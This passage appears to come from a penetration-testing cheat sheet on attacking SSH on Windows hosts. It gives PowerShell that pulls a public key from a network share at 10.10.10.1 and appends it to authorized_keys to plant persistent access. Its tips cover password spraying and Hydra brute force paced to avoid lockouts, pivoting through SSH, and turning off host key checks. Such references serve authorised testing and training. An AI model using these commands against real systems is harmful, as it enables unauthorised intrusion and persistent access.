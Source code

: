 For a standard user:
```powershell
$sshDir = "$env:USERPROFILE\.ssh"
New-Item -ItemType Directory -Path $sshDir -Force | Out-Null
$pub = Get-Content -Raw -Path '\\10.10.10.1\share\winkey.pub'
$path = "$sshDir\authorized_keys"
$pub | Out-File -FilePath $path -Encoding ascii -Append

icacls $sshDir /inheritance:r
icacls $sshDir /grant "$env:USERNAME:(OI)(CI)F" "SYSTEM:(OI)(CI)F"
icacls $path   /inheritance:r
icacls $path   /grant "$env:USERNAME:F" "SYSTEM:F"
```

Login with the key:
```bash
ssh -i ~/.ssh/winkey user@$TARGET
```

9) Compatibility tweaks (old servers)
```bash
# Connect to legacy OpenSSH with deprecated algorithms (only if needed)
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 \
    -oHostKeyAlgorithms=+ssh-rsa \
    -oCiphers=+aes128-cbc \
    user@$TARGET
```

10) Service checks and logs (on the target)
```powershell
# Check OpenSSH services on Windows
Get-Service sshd, ssh-agent
sc.exe qc sshd

# Logs (if enabled)
Get-ChildItem 'C:\ProgramData\ssh\logs\'
Get-Content 'C:\ProgramData\ssh\logs\sshd.log' -Tail 200
```

## Practical tips
- Respect account lockout policies. Prefer password spraying with a few well-chosen candidates over full brute force. Throttle attempts (e.g., Hydra -t 2, add delays).
- Always fingerprint first. Use ssh-auth-methods to see if password login is allowed before attacking.
- If login succeeds but you get no shell, try forcing PowerShell: ssh -t user@host powershell. Some configs are SFTP-only (ForceCommand internal-sftp).
- When adding authorized_keys on Windows, incorrect file permissions will break key logins; fix with icacls as shown.
- Use StrictHostKeyChecking=no and a throwaway UserKnownHostsFile during testing to avoid prompts and host key clutter.
- Prefer scp/sftp for stable transfers; Windows path with scp works as C:/Path/To/File.
- For pivoting, SSH -D with proxychains offers flexible internal enumeration through the SSH foothold.
- Avoid noisy NSE brute scripts by default; dedicated tools (Hydra/Ncrack) give better control and reporting.
- If SSH is moved off 22, nmap -p- first, then target the discovered port with ssh -p <port> and your cracking tool.
